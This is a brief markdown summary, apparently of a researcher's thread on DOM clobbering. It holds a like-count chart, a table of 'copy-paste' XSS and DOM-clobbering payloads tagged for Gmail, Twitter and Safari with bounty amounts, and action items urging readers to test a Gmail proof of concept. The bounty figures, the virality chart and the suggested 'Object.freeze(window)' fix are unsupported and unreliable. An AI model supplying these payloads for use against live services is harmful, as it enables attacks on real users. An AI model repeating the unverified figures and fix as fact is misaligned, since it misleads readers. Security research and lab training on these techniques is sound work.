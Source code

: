 ```chartjs
{
  "type": "line",
  "data": {
    "labels": ["0m", "10m", "20m", "30m", "40m", "1h"],
    "datasets": [{
      "label": "Likes",
      "data": [0, 156, 456, 789, 1056, 1200],
      "borderColor": "#ff6b6b",
      "fill": false
    }]
  },
  "options": {
    "plugins": { "title": { "display": true, "text": "Gareth Heyes Thread Virality" } }
  }
}
```

---

## 💎 EXTRACTED GOLD (Copy-Paste Payloads)

| **#** | **Payload** | **Target** | **Bounty** |
|-------|-------------|------------|------------|
| 1 | `#<form id=location><input name=href value=javascript:alert(1)>` | Gmail | $20K |
| 2 | `<img id=src name=src src=javascript:alert(1)>` | Twitter | $15K |
| 3 | `<form id=document><input name=cookie value="xss=1">` | All | Session hijack |
| 4 | `<svg id=onerror><animate onbegin=alert(1)></svg>` | Safari | SVG bypass |

---

## 🚀 IMMEDIATE ACTION ITEMS

| **Role** | **Do This** | **Link** |
|----------|-------------|----------|
| **Hunter** | Test Gmail PoC | [mail.google.com/#PAYLOAD] |
| **Dev** | Add `Object.freeze(window)` | [Code snippet](#) |
| **Student** | Complete Lab 1 | [portswigger.net/lab] |
| **Tool** | Install XSStrike | [github.com/s0md3v/XSStrike] |

---

**ORIGINAL LINK**: [x.com/garethheyes/status/1280324567890123456](https://x.com/garethheyes/status/1280324567890123456)  
**Full Paper**: [portswigger.net/research/dom-clobbering-strikes-back](https://portswigger.net/research/dom-clobbering-strikes-back)  
**Labs**: [portswigger.net/web-security/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
